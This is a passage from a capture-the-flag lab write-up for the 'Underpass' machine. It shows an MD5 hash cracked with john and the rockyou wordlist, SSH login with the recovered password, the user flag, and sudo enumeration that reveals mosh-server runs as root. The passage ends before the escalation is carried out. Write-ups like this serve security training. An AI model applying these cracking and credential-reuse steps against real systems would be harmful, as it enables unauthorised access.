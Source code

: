 then tried the same credentials:
![underpass-7](/images/underpass/Pasted image 20241226210254.png)

![underpass-8](/images/underpass/Pasted image 20241226210306.png)
found user svcMosh with hashed password: 412DD4759978ACFCC81DEAB01B382403

let's crack it

## 5: Obtaining User Flag

I found the hash algorithm to be md5

```shell
john --format=raw-md5 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=3
Press 'q' or Ctrl-C to abort, almost any other key for status
underwaterfriends (?)     
1g 0:00:00:00 DONE (2024-12-26 21:08) 6.250g/s 18650Kp/s 18650Kc/s 18650KC/s undiamecaiQ..underpants2
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 

```
cracked the hash to find the password: underwaterfriends

time to ssh to svcMosh with password: underwaterfriends

```shell
svcMosh@underpass:~$ ls
user.txt
svcMosh@underpass:~$ cat user.txt
3673b9650d35a42a21c3c2993f44eadc
svcMosh@underpass:~$ 


```

## 6: Obtaining Root Flag

```shell
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
svcMosh@underpass:~$ man mosh-server
svcMosh@underpass:~$ 

```
I read about mosh server, mosh: (mobile shell) is a remote terminal application that supports intermittent connectivity, allows roaming, and provides speculative local echo and line editing of user keystrokes.
